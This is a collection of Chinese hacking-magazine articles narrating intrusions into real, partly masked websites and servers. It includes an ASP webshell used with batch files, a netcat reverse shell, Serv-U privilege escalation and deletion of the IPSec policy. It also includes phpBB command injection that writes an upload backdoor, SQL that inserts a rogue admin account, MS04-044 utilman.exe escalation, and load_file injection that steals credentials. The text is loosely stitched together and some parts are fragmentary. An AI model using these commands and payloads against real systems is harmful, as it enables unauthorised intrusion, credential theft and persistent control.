

图2

（右上栏正文）那么现在我来看看那几个被设置权限的盘吧。经过几次的执行，结果再次摧毁了我的意志，管理员把 SYSTEM 用户给禁止了，试试 CACLS，照样不行。真郁闷！现在权限是有了，但是没有端口。没有其他什么东西可以给我控制，真是欲哭无泪。

（中上栏正文）这个时候 LCX 给我提示说可以用 VIDC 反连过来或者是 HACKER'S DOOR 这样的后门。折腾了半天终于把东西传上去执行了，可是根本没成功，VIDC 连不了，HACKER'S DOOR 更是没办法成功。真家伙，真是难搞啊。玩了两年半安全第一次碰到这么 BT 的主机，真 TM 有点被弄了……看时间，过去4个多小时，除了权限能提升一点外其他的都毫无进展，还是仔细地看一下这个 F 盘上还有什么好东西吧。

（左栏正文）在 ASP 木马里浏览了一下，发现这台主机的设置还是比较变态的，C 盘、D 盘、E 盘都没有办法浏览，F 盘是存放网页的地方，设置的权限看起来像 EVERYONE。仔细看了一下，管理员禁止了 WSH，看来执行文件应该有点麻烦了。不过起码还有一点让我感到庆幸的就是有 FSO 和一个盘可以使用，有突破点了。

现在有了 WEBSHELL，我就开始提权。本来打算是想用“海阳2005”的搜索功能在 F 盘下面搜索 SQL 的用户和密码，可是找到了几个站点的 Conn.asp 文件，发现原来 SQL 并不连接在本机上，而是远程主机，再说都不是 SYSADMIN 的用户，拿到了也没什么用处。想提升权限太麻烦。再试了试 SHELL.APPLICATION，发现程序是能够执行的，可是不能加参数也不能回显结果，似乎就没什么用了。后来才明白这么一个想法害我走了不少弯路。

渗透到这里我感觉有点麻烦了，于是到 QQ 上叫了 lcx 和他讨论解决办法，lcx 简单地了解了主机的设置以后，告诉我写个批处理就能执行带参数的命令了，至于结果，用定向符输出到 F:\ 下的文件里去就可以了。看到这里，我一拍脑门，对啊，我怎么没想到呢？

## 二、继续渗透

首先用海阳2005 ASP 木马在 F:\ 下建立一个 BAT 文件。想再怎么也起码要看一下系统的用户吧。于是写上 `NET USER >> F:\A.TXT`，然后用 SHELL.APPLICATION 执行一下，再回到 FSO 页面刷新一下，怎么没有生成 A.TXT？大概是管理员设置了 USERS 的账户不能访问 CMD.EXE 吧？于是我从自己的机器上传了一个 CMD.EXE 到 F:\ 下面，然后写上 `F:\cmd.exe /c net user >>F:\a.txt`，执行以后果然在 F:\ 盘下多了一个 A.TXT，看来我的猜想没有错。看一下，管理员用策略组把用户改得 BT 极了，没办法，再看下开了什么端口，发现主机除了开了 80 端口以外还开了 21 和 3389，令人吃惊的是这个 21 端口上面居然还有人在连接！不会吧！我怎么什么都没扫到？于是试着登录 FTP，结果拒绝连接，怪了？

正面行不通就找隐之道走。就算你做了 TCP/IP 筛选你也挡不住本机的，对外连接你不行吧？传了个 NC 上去，然后修改那个 BAT 文件：`f:\nc.exe myip 1986 -e f:\cmd.exe`，执行了以后我就傻在电脑前等着这个反向连接过来的 SHELL，可是等了半天 NC 的监听端口上什么反应都没有。难道是传说中的硬件防火墙？

这下似乎没辙了。无奈之下看了看端口列表，发现 127.0.0.1 这个端口对应着 43958 端口（图2），这个不是 SERV-U 的本地管理端口吗？刚好手上有个 SERV-U 的权限提升工具，传上去简单地执行一句添加 NT 用户的命令，再看一下，果然添加成功。那

## 三、绝望中的希望



图3

（右栏正文）带着点绝望的色彩，我翻开一个又一个的目录，可是就是这样毫无聊赖的寻找，还真给我找到一个好东西。主机上竟然有个“农贸服务器安全配置.ipsec”。这个 IPSEC 文件是什么，难道是 IP 安全策略文件？这台主机会应用这样的 IP 策略吧。想想也是蛮有可能的，匆忙将这个文件下载到本机，在 MMC.EXE 添加一个管理单元，再添加一个 IP 安全策略，把这个文件导入：哈哈！果然不出我所料，一个叫“公司”的安全策略出现了（图3）。按第一层的过滤器发现做的是把 BT、迅雷之类的限制，从 SYN 到 ICMP 都做了过滤。学了不少东西，呵呵。

研究了一下这个文件，我就开始猜想是不是对方的主机上也指派着这样一个安全策略呢？把它删除了，那么这台主机对于我来说就是在网络上“裸奔”了。

赶紧在本机上安装了一个 Windows 2000 Resource Kit，然后把其中的 `IPSECPOL.EXE`、`IPSECUTIL.DLL`、`TEXT2POL.DLL` 提取出来传到这台主机上。这3个文件是在命令行下操作 IPSEC 的工具，我们只用它来删除这个安全指派。再编辑一次 BAT 文件，用 SERV-U 的权限提升工具执行这条命令：`ipsecpol -w REG -p "公司" -o`。如果不出意外的话这个名为“公司”的安全策略已经被删除掉了，那么现在唯一要做的工作就是重新启动系统，然后从终端服务器登录上去。

最后编辑那个 BAT 文件，用 `IISRESET /REBOOT` 命令，然后执行。过了不多久网页就没办法访问了，看来是重启了，兴奋ing……

## 四、结语

经过短暂而又漫长的等待之后，在键盘的 F5 键的不停敲动下，IE 慢吞吞地返回了站点的首页，这个时候我再用终端连接上去，成功了！如图4。我差点就从椅子上蹦起来。使用刚才添加的账户登录，看了看主机的大致情况，发现除了 F 盘，其余的盘都设置只能由 Administrator 这个用户访问。



唉，真 BT 啊，这次渗透的确让我了解了不少东西，比如这个 IPSEC 设置，虽然是 BT 中的 BT，但是管理员唯一的错误就是把这个文件给备份到了一个所有 Everyone 权限的盘上。不知道是什么原因，为什么？6个小时的入侵就这么结束了……

> （本文涉及到的程序 SUPERSCAN、海阳2005 ASP 木马收录于光盘）


## 剑客

下午实在无聊，就与寝室的兄弟一起去网吧消遣。网络游戏与本少无缘，于是继续研究注入技术。搜索“注入”，找到“阿D工具包”，下载后寻找可注入目标，最终找到一个可用站点并开始 INJECTION。

出来了，不好意思，它的 DNS 管理页面管理员账号密码出来了！进去后发现可利用价值有限，转而在论坛里继续尝试。虽然 SP2 环境下不易直接拿站，但仍可通过手工注入与社会工程配合继续推进。

成功了！拿到论坛管理权限后，下一步是上传 ASP 木马。先把文件改成 JPG 上传，再用备份方式改回 ASP 文件，如图1和图2。


记下地址，心中既兴奋又忐忑。打开后一看什么都没有，怀疑被杀毒拦截。随后对策是做加密处理：将页面加密后再上传。打开后出现了 ASP 木马页面，但页面有点不正常，如图3和图4。


难道管理员安全技术真有这么高？继续尝试预处理文件方式，在文件中加入 include 调用，把 ASP 加密后改为 JPG 上传，再由另一 ASP 页面调用该 JPG 执行。运行后页面终于出来了，如图5和图6。


# 一个人的战争

按下来还是加密，然后上去！在 IE 中打开它的地址，看到了吧，如图8。

此时的页面和正常的 ASP 木马页面很像了，不过仔细一看，输入密码后没起作用！除了进制转换的功能外，其它的都不行。这时我都觉得没心情了，想：何必呢？不努力怎么行呢？努力吧！我在电脑旁边想，对了，还有源码的大小写转换还没有试呀！也许成功与否就在此一举。再不行我就放弃此次渗透，这也是我给自己下的最后命令！

想到了大小写转换，没有现成的程序呀。还好手头还有一台肉鸡，并且装有 VB，VB 正是我精通的编程工具。3389 到我的这台肉鸡后，用 VB 自带的 UCASE 函数将 ASP 木马的全部代码转换为大写后，再保存为 ASP 文件，如图7。

真是“功夫不负有心人”啊！我高兴地试了一下它的功能，全部正常。这就是我的这次坎坷的 INJECTION 行动。这里没有什么新的东西，一切都是思路。不要想得太远，也不要想得太近，适中才是火候！成功就是这样！

朱平

由于文件模式和用户权限的原因，供客户端 HTTP 浏览的 Web 文件一定能被读取，但未必能写，这就使得 Linux 系统下的旁注无需提升管理员权限就能实现对目标站点的入侵。那么我们赶紧开始吧。目标是 `http://www.guan***.net`，我盯上它很久了。

网站性质是个论坛，使用的是 PHPWind v2.0.2，传说中很安全。我不是专业安全人士，没兴趣也没时间帮它检测代码，所以今天只想试试能否通过旁注入侵，这样就省了很多麻烦。Ping 域名得到 IP：61.129.**.7。有了 IP，我们就能知道这 IP 上绑定的其他域名。IE 浏览器下输入：`http://whois.webhosting.info/61.129.**.7`，返回的结果如图1所示。

最近看到旁注的文章基本上是 WIN 系统下进行的，难道 Linux 系统下就不能旁注吗？答案当然是否定的。我想根本原因还是 WIN 入侵多于 Linux 入侵，WIN 系统的入侵相对 Linux 系统入侵更容易。拿最近闹得很火的 SQL 注射来说吧，SQL 注射相对 ASP 程序（多运行于 WIN 系统）比 PHP 程序（多运行于 Linux 系统）容易实现得多。任何一个新手，只要懂得相应的 SQL 注射漏洞判断，再拿出一个自动注射的小程序，就能完成一次 ASP 程序的注入入侵；而 PHP 由于安全模式的限制、对相应字符串进行过滤，同时 MySQL 数据库功能的限制，都使得新手望而却步。

不过前段时间公布的网上最流行的两个 PHP 论坛：IPB 论坛和 PHPBB 论坛都存在 SQL Injection 漏洞，同时还发布了相应的 Exploit。有这个做基础，我想 Linux 系统下的旁注入侵会简单容易得多。下面我们就来一次 Linux 下旁注入侵之旅吧。

为了不让大家扫兴，先提醒一下大家，Linux 下的旁注入侵和 WIN 下的旁注入侵大部分步骤是一样的：查询和目标在同一 IP 上绑定的其他域名，浏览域名，并查找其他域名对应网站的程序漏洞，接着入侵，并提升管理员权限，得到整台服务器的控制权，现在再回头对我们真正的目标下手。

其中最关键的是要提升管理员权限。如果一台 WIN 服务器系统让你随便通过权限读取所有 WEB 目录的话，那就不叫服务器了，叫共享目录得了。但 Linux 系统……

可以看到这个 IP 上绑定了 64 个域名；这么多网站还进不去，那真的找面墙撞死算了（给自己点信心）。但我们还是要做好失败的准备，因为这可是上海一家很出名空间商的服务器，安全绝对做得很好。这里我们并不能说绑定了 64 个网站，呵呵，多个域名可以同时对应一个网站的。

现在我们要做的就是访问这些域名，瞎逛，但我们的目标是找漏洞。找呀找呀找漏洞，找到一个小漏洞，敬个礼握握手，你是我的好漏洞。呵呵，哼首歌，放松一下，心态很重要。果然，在轻松的心态下，我才浏览了第二个域名 `http://www.f9706**.net/bbs/`，就找到一处有希望突破的漏洞，是一个中文 PHPBB 论坛，版本信息如图2所示。

嘿嘿，phpBB 2.0.8，漏洞公告可是说 2.0.10 以下版本都存在漏洞。我就不啰嗦了，懒得去编译发布的 Exploit，有现成的工具为什么不用。Cerebrums 写的模块化 PHPBB 命令执行程序，是 WIN 系统下使用的哦，界面如图3所示。

使用很简单：URL 处输入目标论坛的 URL，Topic 处输入任意一个主题帖的 ID 号，关键是 Command 处输入要执行的 Linux 系统命令（普通权限），这里可以根据你自己的需要设置。我构造的是：

```php
echo "<?php copy($_FILES[MyFile][tmp_name],$_FILES[MyFile][name]);?>" > upfile.php
```

功能很简单，把相应的命令写入 upfile.php 文件，用于我们以后上传文件。点击“go!”按钮，返回正常页面的话就说明命令执行成功。

现在我们只要在本地构建一个表单，代码如下：

```html
<form ENCTYPE="multipart/form-data"
ACTION="http://www.f970****.net/bbs/upfile.php"
METHOD="POST">
  <input NAME="MyFile" TYPE="file">
  <input VALUE="提交" TYPE="submit">
</form>
```

ACTION 处指定的是我们利用工具生成的 upfile.php 文件的 URL，现在我们就可以利用这表单来上传我们的 PHP 后门了，我用的是 Angel 写的 Phpspy，如图4所示。

点击“提交”按钮，片刻之后我们的 PHP 木马就上传了，打开 IE 输入木马的 URL，运行木马吧，如图5所示。

有了它，一切都简单了好多，不要再担心操作失误或命令输错。来到 WebShell 模式，在这里可以执行当前用户允许的系统命令。我最先想到的是 Linux 内核溢出，没错，所以我们输入：`id, uname -a`，结果如图6、7所示。

我们的 ID 只是普通权限，同时看到 Linux 2.6.5-1.358smp。我首先想到的是放弃内核溢出，这个内核也太新了吧，我的 Redhat 9.0 内核还只是 2.4.20，看来管理员的安全意识不错。先转转，看能否访问到我们的目标 `http://www.guan**.net` 的主目录，倘若只是不要 Root 权限也能把它给黑了。才输入几个命令，心又冷了一截。

首先 LS（列目录）命令被限制，这样我们连哪个目录都列不出来；Find 命令也被限制，不能查找文件；而且大部分文件和目录被设置了访问权限；值得庆幸的是 CAT（读文件）命令还能用。冷静想想，作为客户端 IE 能浏览的文件一定能读取，不能读的话我们远程也访问不了。

由于文件夹权限的设置和 LS 命令的限制，我们根本就不知道目标的目录路径，也列不出文件。如果能找到目标的目录路径，一定能用 CAT 命令读文件。能读文件的话，也就能读取目标网站的配置文件或数据库连接文件等重要文件。再想想 Apache 的虚拟目录是在 Httpd.conf 里定义的，因此我们只要能读取 Httpd.conf，就能知道目标网站的目录路径了：

- `/etc/httpd/conf/httpd.conf`
- `/etc/httpd/httpd.conf`
- `/var/httpd/conf/httpd.conf`
- `/var/www/conf/httpd.conf`

呵呵，结果出来了，天无绝人之路。通过查看 httpd 的配置文件我们就能知道各个域名所对应的具体目录。如图8所示，我们得到了目标的目录。

现在我知道了入侵目标所在目录是 `/www/users/guan*.net`。测试一下能否跨文件，如图9所示。

哈哈，开心吧，成功在向我们招手。通过研究程序结构，我们知道 PHPWind 论坛把重要配置信息（管理员密码和数据库连接参数）放在 DATA 目录下的 `sql_config.php` 中。

管理员密码是 32 位 MD5 加密。既然有数据库连接参数，我们尝试用 SQL 查询方式修改数据，如图11所示。

```sql
INSERT INTO pw_members(username,password,email,groupid,memberid,regdate,lastvisit,thisvisit)
VALUES('kuin2','e10adc3949ba59abbe56e057f20f883e','111sasa@163.com','3','8','$timestamp','$timestamp','$timestamp');
```

意思是在 `pw_members` 表中插入一条用户数据，`e10adc...` 是密码 `123456` 的 MD5，`groupid=3`，`memberid=8`，相当于加入管理员。

| 字段 | 值 |
|---|---|
| 用户名 | kuin2（在线） |
| 系统头衔 | 管理员 |
| 会员头衔 | 新手上路 |
| 最后登录 IP | 210.85.57.207 |
| 发帖 | 0 |
| 威望 | 0 |

好了，现在是管理员了，该干什么就干什么去吧，但是不要搞破坏呀！

## 一、漏洞描述

这个漏洞被描述为本地权限提升漏洞：当 Windows 内核加载应用程序时存在缺陷，允许任意登录用户通过 LPC 过程调用中的长度检查问题控制系统。

## 漏洞影响范围如下

- Microsoft Windows NT Server 4.0 Service Pack 6a
- Microsoft Windows NT Server 4.0 Terminal Server Edition Service Pack 6
- Microsoft Windows 2000 Service Pack 3
- Microsoft Windows 2000 Service Pack 4
- Microsoft Windows XP Service Pack 1/2
- Microsoft Windows XP 64-Bit Edition Service Pack 1
- Microsoft Windows XP 64-Bit Edition Version 2003
- Microsoft Windows Server 2003
- Microsoft Windows Server 2003 64-Bit Edition

## 二、漏洞利用

文中介绍利用 utilman.exe 替换触发（WIN+U）的方法，从 notepad 到 cmd 的尝试及修正过程，并说明应替换为可由辅助功能按钮启动的程序。

```text
F:\>ms04044
ms04044 local privilege promotion exploit
written by ...
Usage:
ms04044 <program-file>
```

```text
<full-path>
example: ms04044 \C$\winnt\system32\taskmgr.exe
```

我们既然不能直接得到一个 cmd，那么可以来个曲线救国。任务管理器是一个窗口程序，把它覆盖成 utilman.exe 后，可以用“WIN+U”组合键启动。那么任务管理器将是以本地 system 权限启动的，再通过任务管理器新建一个 cmd 任务，这个 cmd 也就是 system 权限了。首先我以 guest 权限登录。

图1：用 whoami 查看结果是 NETGHOST\Guest，随后运行 exploit（如图2所示）。

执行完后按下“WIN+U”，任务管理器出现；新建任务输入 cmd，得到新命令行窗口，再用 whoami 查看权限（图3）。成功后即为 system。本地提升并不复杂，也可替换为其他可交互程序；需注意“WIN+U”启动窗口持续时间有限，应在约 1 分钟内完成提权。

另外 exploit 运行后会把 utilman.exe 备份为同目录下的 utilmanback.exe，记得在实验后恢复。作者提醒 utilman.exe 这个入口在提权场景中非常实用。

本地提升说到这里，作者进一步提出在远程环境中（如拿到 web shell 后）也可尝试利用同类思路进行权限提升：将上传权限与可执行替换结合，等待系统触发或重启实现持久化执行。

将 exploit 改造为“允许任意文件覆盖任意文件”的形式：先上传木马，再用工具把木马替换到可自启动程序或启动项，实现后续自动运行。

```text
D:\temp\C盘2\ms04044\
MS04044 local privilege promotion exploit
written by 无敌最寂寞@ESIT

Usage:
ms04044 <source-file-full-path> <dest-file-full-path>
example: ms04044 \C$\winnt\system32\cmd.exe \C$\winnt\system32\utilman.exe
```

利用测试如图4所示。

OK 了，文章到此。作者鼓励继续挖掘并欢迎在安全论坛讨论，同时给出文末说明：文中涉及的工具（如 loc04044.exe、re04044.exe）先前已有收录。

# 山穷水尽时突破 Xyload_file() 的利用

——剑心 x-safe

《黑客X档案》以前对 PHP 的注射有很多介绍，我等菜鸟也很是心痒，于是趁着打假时间就想练练手，学到的一些东西。目标是选择很多经典的 PHP 下载系统“夜猫”了，因为我没有 PHP 和 MySQL 的测试环境，只有选这个结构比较熟悉的系统了。

在 Google 里搜索 `/down/show.php?id=`，有几个这样的系统，可是测试了很多，却少有可以 union 出预期结果的，都是 union 到 50 多个字段都不出结果，应该是 MySQL 不支持 union 查询的结果。又不愿意去像 Access 一样猜测管理员密码，理由很简单：有了强大的 load_file 函数为什么还要做这些无聊的事情呢？有了密码不一定知道后台，有了后台不一定有上传、提权……总之就是想找到一个支持 union 和 load_file 的系统好好看看，试试传说中的 PHP 注入直接得到系统权限的强大威力。

还真让我找到了一个。直接在 URL 的 id 后加“'”，如图1。

哈哈，知道了是 Windows 主机，还有绝对路径，呵呵！再判断 1=1 与 1=2 返回的页面，基本知道漏洞确实存在。可是不知道是否支持 Union？马上在后面依次递增提交 `and 1=2 union select`，到 20 的时候返回正常页面，如图2。

根据显示的字段，19 那个地方是软件介绍，一定是字符型的了，可以用 `load_file()` 替换了。由于已经知道这个下载系统的敏感文件 `global.asp`、`config.inc`、`php.ini`，分别试出来了。居然得到 root 的密码，如图3。

顺利多了！还有默认的后台，可是表好像被改过了，不是默认的字段与表名了。但是我们有 `load_file()`，读取那个 `/admin/user.php`（就是得到的后台登录），仔细观察几个读取数据的地方，果然有了表名和字段！马上 union 查询出用户密码登录，如图4。

后台有点简陋，根本没有上传的地方。可是没有关系，我们有 root 数据库密码！我有 Root 我怕谁？初步成功，整理思路先（好像很简单啊，就是以前高手所做的简单重复嘛！但是……当然没这么简单了，不然也不会有这篇文章了）。

有了 Root 等数据库密码，可以试试远程连接 MySQL，导出个 webshell 就不错了。也可以在浏览器提交，但是这里有个 PHP 的设置问题：如果 `magic_quotes_gpc=on` 为打开的话，浏览器提交给服务器的变量都会被处理，写 webshell 基本就不可能了（除非你浏览器里提交的路径不包含被过滤的字符，但好像是不可能的）。

废话不说了，这么久还没有进行主机探测呢，现在该看看了。打开 x-scan 选择只扫开放服务，因为这些已经够了，不可能给你一些 N 年前的溢出吧？等了一会儿看结果，晕！只开了 80、21 端口。理想中的 3306 没有扫到，侥幸 telnet 他的 3306 端口（这台主机好像有措施防御扫描），结果还是没有！郁闷！远程登录不可能了！

那就看看 `php.ini` 的设置吧，猜测了几次 `php.ini` 的位置，最后发现是在 `c:\winnt\php.ini`，转换下用 `load_file()` 读出来，果然是 `magic_quotes_gpc=on`，如图5。

那只有看看有没有 PhpMyAdmin 了？于是找到 IP，在后面加上 `phpmyadmin/`，这是 PhpMyAdmin 的默认目录。但是最后一丝希望也破灭了！返回 404！竟然不存在。

基本上经典招式都用完了，我也晕了。我们注入只是得到了敏感的密码信息、一些敏感文件信息；主机已经屏蔽了 3306 端口，也不存在 PhpMyAdmin，没有办法通过数据库备份到 webshell 了！

苦思冥想，入侵也已经山穷水尽，中间就这样耗了一段时间，甚至忘记了这次入侵。最近把以前的《黑X》拿出来温习，忽然看到紫幻大哥提到的关于 Serv-U 的远程管理缺陷。只要 webshell 能读取 ServUAdmin.ini 加密密码，就可以本地替换拿到 Serv-U 的远程管理权限。注意！只要读到的权限就可以！想到什么没有，希望注入漏洞还在，哈哈……

# 一个人的战争

上将 `C:\Program Files\Serv-U\ServUAdmin.ini` 转换成数字并放在 `load_file(char())` 函数里提交……已经拿到只读系统权限的 webshell。

```text
view-source:http://www.asianheros.com/down/show.php?...load_file(char(...))
```

也就是 `load_file()` 读取它的 `d:\web\alcs\down\show.php`，得到了一些好东西。

```text
ftp、数据库更新语句等配置片段（如 `$downurl`、`UPDATE $down_table ...`）。
```

有用户的敏感信息！得到了所有用户名……尝试根据数据库密码和后台密码猜测站点目录有权限的账号。


继续在“只读 webshell”层面探测系统，提取站点工具信息，发现一些主机信息与站点列表（图7）。


右栏叙述：站点中还有其他模块，尝试类似参数传递方式；某些版本不支持 union，但仍可通过只读 webshell 读出配置文件。

```text
`$dbhost`、`$dbuser`、`$dbpasswd`、`$dbname` 等数据库配置变量。
```

现在不想连上去，继续读源码与配置；主机文件安全性差，逐步暴露更多信息，最终发现站点存在明显风险点。


爱无言（署名）

最近访问一个商务网站，感觉功能齐全但系统可能有问题；拿到源码后发现是“动感购物系统”。

## 二、DoS攻击

问题出在 `research.asp`，查看源码：

```asp
rs.open "select ... from shop_books where bookname like '%" & searchKey & "%'", conn, 1, 1
```

当提交变量 `searchkey` 为空时可触发 DoS，代码缺少对空值的有效处理。

```asp
<% dim action,searchkey,... selectname=request("selectname") ... %（参数读取与处理片段）
```

```asp
action=request.QueryString("action")
searchkey=request.QueryString("searchkey")
if anclassid="" then
  anclassid=request.QueryString("anclassid")
if jiage="" then jiage=request.QueryString("jiage")
if action="" then action=int(request("action"))
if searchkey="" then searchkey=trim(request("searchkey"))
if selectname="" then selectname=trim(request("selectname"))
```

```asp
response.write "新文件名："&FileName&"<br>"
response.write "新文件名已复制到你需要的位置，可关闭窗口!"
if filex="swf" then ...
```

```text
www.###.com/class.asp?aid=24&nid=221 and (select count(admin) from shop_admin)>0
```

系统对上传的文件类型没做任何限制，很相信管理员呀？哈哈，那就不客气了，如图2。

猜测管理员名：`www.###.com/class.asp?aid=24&nid=221 and (select * from shop_admin where left(admin,1)='a')>0` 正常返回。一直猜，得到管理员名字：admin。再猜密码，继续以 `left(password,1)` 的方式注入测试。


## 二、注入漏洞

这个问题出在 `book.asp` 文件，让我们看看文件里的源码。

```asp
<%
set rs2=server.CreateObject("adodb.recordset")
rs2.open "select * from shop.books where bookid='"&bookid&"'",conn,1,3
rs2("liulancount")=rs2("liulancount")+1
rs2.update
%>
```

注意到了 `&bookid` 没有？这里对变量几乎没有过滤。随后通过 `class.asp` 参数继续注入，最终得到管理后台相关结果（见图3）。


## 三、上传任意文件

这个漏洞需要管理员权限。下面看文件 `upfile.asp` 的代码：

```asp
ranNum=int(90000*rnd)+10000
filename=filepath&year(now)&month(now)&day(now)&hour(now)&minute(now)&second(now)&ranNum&"."&fileExt
if file.FileSize>0 then
  file.SaveAs Server.mappath(filename)
  file.SaveToFile Server.mappath(FileName)
  response.write fileFileName&" 上传成功!"
```

## 四、验证过滤不严

在文件 `chkadmin.asp` 里，对于管理员登录验证如下：

```asp
<%
dim admin,password
admin=replace(trim(request("admin")),"'","")
password=md5(replace(trim(request("password")),"'",""))
if admin="" or password="" then
  response.Write "<center><a href=login.asp><font color=red size=2>对不起，登陆失败，请检查您的登陆名和密码</font></a></center>"
  response.end
end if
set rs=server.CreateObject("adodb.recordset")
rs.open "select * from shop_admin where admin='"&admin&"' and password='"&password&"'",conn,1,1
```

这里只是简单过滤了单引号，仍可继续尝试绕过。文章最后给出讨论与总结。

## 也要“趁”时精移
## ——从飞龙文章系统上传漏洞到系统管理员的飞跃

Perl

今天我给大家带来的是老兵发现的飞龙文章系统漏洞，单纯一个漏洞的使用并没什么太大的意义，这篇文章里我想说的是一个学习思路。在老兵的文章中最后一段写到：……

> ……admin2/upfile.asp、user_upfile.asp 这两个文件确实是动网以前那个上传漏洞的再现，而且这两个文件不受登录也可访问操作。不过在用本站的上传工具上传时注意在 cookies 一栏中填上 ArtID=1111；文件名是以 artid 为依据的……

